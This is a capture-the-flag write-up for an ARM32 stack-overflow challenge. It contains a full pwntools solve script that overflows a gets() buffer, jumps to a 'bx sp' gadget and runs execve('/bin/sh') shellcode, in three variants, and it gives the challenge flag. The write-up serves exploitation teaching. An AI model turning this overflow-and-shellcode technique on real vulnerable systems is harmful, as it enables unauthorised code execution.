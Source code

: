 # Challenge Name

**`Authors:`** [m0kr4n3](https://github.com/m0kr4n3) & [LaidMalik](https://github.com/malikDaCoda)

## Description

> Imagine a binary exploitation challenge with no ASLR, no PIE, RWX segments... but it runs on ARM! Should be fun, right?  
> Note: the binary is run using qemu-arm (qemu-user).

## Write-up

### Brief Summary

- all protections are disabled (no ASLR, no PIE, XN disabled, ...)
- `gets` is used in the vulnerable function `vuln`
- there are a bunch of ways to get a shell :
  - place execve shellcode on the stack and branch to it
  - ret2libc with ROP to execute system("/bin/sh")

### TODO

### Solve script (with comments)

```python
#!/usr/bin/env python3
from pwn import *

elf = ELF("./challenge/arm32")

HOST, PORT = "localhost", 1337

context.binary = elf

def main():
    global io

    # padding to reach return address
    # 0x20 for buffer size
    # +4 for frame pointer
    pad = 0x20 + 4

    # gadgets
    # +1 is added because the instructions
    # are in thumb mode
    bx_sp = next(elf.search(
        asm("bx sp", arch="thumb"),
        executable=True
    )) + 1

    io = conn()

    payload = flat(
        "/bin/sh\0",
        # padding to reach return address
        b'A'*(pad-8),
        # branch to sp, where the shellcode will be
        bx_sp,
    )

    context.clear(arch="arm")

    # although `gets` allows null bytes,
    # I think it is good practice to write
    # null-byte free shellcode

    # null-byte free shellcode
    shellcode1 = asm('''
        .code 32            @ ARM mode
        @ switch to thumb mode (unlocks 16-bit instructions)
        @ to avoid null bytes
        add r3, pc, #1
        bx r3

        .code 16            @ Thumb mode
        @ &"/bin/sh" offset calculation:
        @ pad (0x20+4) +
        @ retaddr (4) +
        @ 2 32-bit instructions (2*4) +
        @ 2*2 (pc points two instructions ahead) = 0x34
        sub r0, pc, #0x34   @ filename: &"/bin/sh" (at pc-0x34)
        eors r1, r1         @ argv: NULL
        eors r2, r2         @ envp: NULL
        movs r7, #11        @ execve syscall
        svc #1              @ invoke syscall
        mov r5, r5          @ NOP (shellcode must be 4 bytes aligned)
    ''')

    # simpler shellcode but with null bytes
    shellcode2 = asm('''
        @ &"/bin/sh" offset calculation:
        @ pad (0x20+4) +
        @ retaddr (4) +
        @ 2*4 (pc points two instructions ahead) = 0x30
        sub r0, pc, #0x30   @ filename: &"/bin/sh" (at pc-0x30)
        mov r1, #0          @ argv: NULL
        mov r2, #0          @ envp: NULL
        mov r7, #11         @ execve syscall
        svc #0              @ invoke syscall
    ''')

    # we can also get lazy and use shellcraft
    shellcode3 = asm(shellcraft.arm.execve(b"/bin/sh\0", 0, 0))

    io.recvline()

    payload += shellcode1

    # `gets`  stops reading when encountering a newline
    assert(b'\n' not in payload)
    io.sendline(payload)

    io.interactive()

def conn():
    if args.REMOTE:
        return remote(HOST, PORT)
    else:
        if args.GDB:
            p = process(["qemu-arm-static", "-g", "1234", "-L", "/usr/arm-linux-gnueabihf/", elf.path])
        else:
            p = process(["qemu-arm-static", "-L", "/usr/arm-linux-gnueabihf/", elf.path])
        return p

if __name__ == "__main__":
    io = None
    try:
        main()
    finally:
        if io:
            io.close()
```

### Flag

`shellmates{ARM_Xpl0it$_4r3_C00l}`
